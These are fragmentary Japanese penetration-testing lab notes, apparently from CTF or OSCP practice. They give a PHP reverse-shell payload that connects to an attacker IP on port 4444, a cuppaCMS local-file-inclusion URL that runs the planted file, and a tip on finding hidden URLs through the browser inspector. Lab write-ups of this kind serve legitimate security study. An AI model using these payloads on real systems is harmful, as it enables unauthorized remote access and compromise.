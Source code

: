 insertモードでレコードを追加する

![image-20230216220041210](img/webapplication/image-20230216220041210.png)

```php
<?php
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.197/4444 0>&1'");
?>
```

cuppaCMSの脆弱性を使いコード実行する

```
http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php
```

https://sevenlayers.com/index.php/99-vulnhub-zico2-1-walkthrough



### 開発者モードのInspectを起点にjavascriptを活用してディレクトリサーチする

* 画面は真っ白だがInspectorでコメント欄に別のURLが見つかる

  ![image-20230218121237302](img/webapplication/image-20230218121237302.png)

